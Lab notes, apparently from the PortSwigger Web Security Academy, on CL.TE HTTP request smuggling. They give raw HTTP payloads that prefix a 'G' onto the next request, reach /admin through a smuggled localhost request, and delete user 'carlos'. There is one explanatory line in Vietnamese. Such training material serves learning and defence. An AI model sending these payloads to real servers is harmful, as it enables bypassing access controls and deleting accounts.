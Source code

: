 payload:

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

## Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

payload:

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

Phải có `Content-length: 10` để request thứ 2 sẽ phản hồi chậm hơn khi có người khác truy cập, nếu ko nó sẽ nhận diện là có 2 `Host`

payload xóa:

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

